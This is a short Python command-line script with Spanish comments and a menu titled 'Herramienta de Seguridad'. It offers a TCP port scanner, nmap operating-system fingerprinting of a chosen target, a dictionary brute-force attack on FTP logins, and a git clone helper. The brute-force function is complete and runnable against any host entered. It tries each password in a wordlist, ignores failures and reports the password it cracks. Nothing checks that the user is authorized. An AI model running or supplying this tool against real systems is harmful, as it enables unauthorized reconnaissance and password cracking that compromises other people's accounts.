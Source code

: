 import os
import socket
import subprocess

def escaneo_puertos(target, start_port=1, end_port=1024):
    print(f"[+] Escaneando puertos de {target} desde {start_port} hasta {end_port}")
    abiertos = []
    for port in range(start_port, end_port + 1):
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sock.settimeout(0.3)
        result = sock.connect_ex((target, port))
        if result == 0:
            print(f"  - Puerto abierto: {port}")
            abiertos.append(port)
        sock.close()
    return abiertos

def escaneo_sistema_operativo(target):
    print(f"[+] Escaneo de sistema operativo para {target}")
    try:
        resultado = subprocess.check_output(['nmap', '-O', target], universal_newlines=True)
        print(resultado)
    except FileNotFoundError:
        print("Nmap no está instalado o no está en el PATH.")
    except subprocess.CalledProcessError as e:
        print(f"Error al ejecutar nmap: {e}")

def fuerza_bruta_simple(target, usuario, diccionario):
    print(f"[+] Intentando fuerza bruta en FTP para {target} con usuario {usuario}")
    # Este es un ejemplo simple, solo para ilustrar
    import ftplib
    with open(diccionario, 'r') as file:
        for linea in file:
            passwd = linea.strip()
            try:
                ftp = ftplib.FTP(target)
                ftp.login(usuario, passwd)
                print(f"[+] Contraseña encontrada: {passwd}")
                ftp.quit()
                return passwd
            except:
                pass
    print("[-] Contraseña no encontrada.")
    return None

def clonar_repositorio(url):
    print(f"[+] Clonando repositorio: {url}")
    try:
        subprocess.run(['git', 'clone', url], check=True)
        print("[+] Repositorio clonado correctamente.")
    except subprocess.CalledProcessError:
        print("Error al clonar el repositorio. ¿Git está instalado?")

def menu():
    print("""
    Herramienta de Seguridad - Menú
    1. Escaneo de puertos
    2. Escaneo de sistema operativo (requiere nmap)
    3. Fuerza bruta FTP (requiere archivo diccionario)
    4. Clonar repositorio Git
    5. Salir
    """)

if __name__ == "__main__":
    while True:
        menu()
        opcion = input("Elige una opción: ").strip()
        if opcion == '1':
            target = input("Ingresa IP o dominio objetivo: ").strip()
            start_port = int(input("Puerto inicial (default 1): ") or "1")
            end_port = int(input("Puerto final (default 1024): ") or "1024")
            escaneo_puertos(target, start_port, end_port)
        elif opcion == '2':
            target = input("Ingresa IP o dominio objetivo: ").strip()
            escaneo_sistema_operativo(target)
        elif opcion == '3':
            target = input("Ingresa IP objetivo FTP: ").strip()
            usuario = input("Ingresa usuario FTP: ").strip()
            diccionario = input("Ruta al archivo diccionario: ").strip()
            fuerza_bruta_simple(target, usuario, diccionario)
        elif opcion == '4':
            url = input("Ingresa URL del repositorio Git: ").strip()
            clonar_repositorio(url)
        elif opcion == '5':
            print("Saliendo...")
            break
        else:
            print("Opción no válida, intenta de nuevo.")
